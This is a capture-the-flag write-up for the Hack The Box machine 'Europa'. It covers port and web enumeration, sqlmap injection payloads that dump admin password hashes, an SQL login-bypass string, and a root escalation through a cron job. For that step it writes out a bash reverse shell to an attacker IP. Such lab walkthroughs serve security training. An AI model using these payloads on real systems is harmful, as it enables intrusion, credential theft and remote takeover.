







# Europa
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.22 --min-rate 10000    
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-16 18:03 BST
Nmap scan report for 10.10.10.22 (10.10.10.22)
Host is up (0.11s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 36.67 seconds

```
```
└─$ nmap -Pn -p22,80,443 -sC -sV 10.10.10.22 --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-16 18:05 BST
Nmap scan report for 10.10.10.22 (10.10.10.22)
Host is up (0.13s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (ED25519)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Not valid before: 2017-04-19T09:06:22
|_Not valid after:  2027-04-17T09:06:22
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.79 seconds

```

- Web Server
  - Add hosts from `nmap` results to `/etc/hosts`





- `vhosts`
```
└─$ wfuzz -u https://europacorp.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H 'Host: FUZZ.europacorp.htb' --hh 12455
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://europacorp.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================


```

- `feroxbuster`
```
└─$ feroxbuster -u http://europacorp.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://europacorp.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, txt]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       15l       74w     6143c http://europacorp.htb/icons/ubuntu-logo.png
200      GET      421l     1049w    12455c http://europacorp.htb/

```

## Foothold/User
- We can trigger `sql` error on `https://admin-portal.europacorp.htb/login.php` by setting `email` parameter to `'` 



- We can use `sqlmap` to dump the database
```
└─$ sqlmap -r sqli.req --batch --force-ssl
...
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 346 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=admin' RLIKE (SELECT (CASE WHEN (8085=8085) THEN 0x61646d696e ELSE 0x28 END))-- TKjM&password=admin&remember=Remember Me

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: email=admin' AND GTID_SUBSET(CONCAT(0x717a6a7071,(SELECT (ELT(8351=8351,1))),0x716b6b7171),8351)-- VZJu&password=admin&remember=Remember Me

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=admin' AND (SELECT 9406 FROM (SELECT(SLEEP(5)))ueXW)-- XqsJ&password=admin&remember=Remember Me
---
...
```
```
└─$ sqlmap -r sqli.req --batch --force-ssl --dbs
...
[18:24:53] [INFO] fetching database names
[18:24:55] [INFO] retrieved: 'information_schema'
[18:24:55] [INFO] retrieved: 'admin'
available databases [2]:
[*] admin
[*] information_schema
...
```
```
└─$ sqlmap -r sqli.req --batch --force-ssl -D admin --tables
...
[18:26:13] [INFO] retrieved: 'users'
Database: admin
[1 table]
+-------+
| users |
+-------+
...
```
```
└─$ sqlmap -r sqli.req --batch --force-ssl -D admin -T users --dump
...
Database: admin
Table: users
[2 entries]
+----+----------------------+----------+----------------------------------+---------------+
| id | email                | active   | password                         | username      |
+----+----------------------+----------+----------------------------------+---------------+
| 1  | admin@europacorp.htb | 1        | 2b6d315337f18617ba18922c0b9597ff | administrator |
| 2  | john@europacorp.htb  | 1        | 2b6d315337f18617ba18922c0b9597ff | john          |
+----+----------------------+----------+----------------------------------+---------------+
...
```

- The password is `SuperSecretPassword!`
  - https://md5hashing.net/hash/md5/2b6d315337f18617ba18922c0b9597ff



- Anothey way to bypass the login is to send `admin@europacorp.htb';-- -`
  - Guessing the email of the `admin`
  - Also error indicated that the query has the following form: `SELECT * FROM users WHERE email='$email' and password='hash';`
  - So after payload we would have: `SELECT * FROM users WHERE email='admin@europacorp.htb';-- - and password='hash';`
- Now, let's check the application
  - We have `tools.php`
  - Where we can specify `ip` which will be inserted to config
  - The request looks like a `regex` replacement


- If we google for `PHP regex pattern vulnerability` we find few posts about `Command Execution - preg_replace()`
  - https://ik0nw.github.io/2020/09/23/PHP::Preg_replace()-RCE/index.html



- Let's get reverse shell





## Root
- We have `cronjobs` folder
```
www-data@europa:/var/www$ ls -lha
total 24K
drwxr-xr-x  6 root root     4.0K May 17  2022 .
drwxr-xr-x 14 root root     4.0K May 17  2022 ..
drwxr-xr-x  7 root root     4.0K May 17  2022 admin
drwxrwxr-x  2 root www-data 4.0K May 17  2022 cmd
drwxr-xr-x  2 root root     4.0K Jun 23  2017 cronjobs
drwxr-xr-x  2 root root     4.0K Jul 27  2017 html

```

- Content
```
www-data@europa:/var/www/cronjobs$ ls -lha
total 12K
drwxr-xr-x 2 root root 4.0K Jun 23  2017 .
drwxr-xr-x 6 root root 4.0K May 17  2022 ..
-r-xr-xr-x 1 root root  132 May 12  2017 clearlogs
www-data@europa:/var/www/cronjobs$ cat clearlogs 
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```

- But script doesn't exist
```
www-data@europa:/var/www/cronjobs$ ls -lha /var/www/cmd/logcleared.sh
ls: cannot access '/var/www/cmd/logcleared.sh': No such file or directory

```

- And the job is running every minute
```
www-data@europa:/var/www/cronjobs$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *       root    /var/www/cronjobs/clearlogs

```

- Let's create the script and get our root shell
```
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.10.16.9/7777 0>&1
```
```
www-data@europa:/var/www/cronjobs$ vim /var/www/cmd/logcleared.sh
www-data@europa:/var/www/cronjobs$ chmod +x /var/www/cmd/logcleared.sh
```

- After a minute we receive a shell

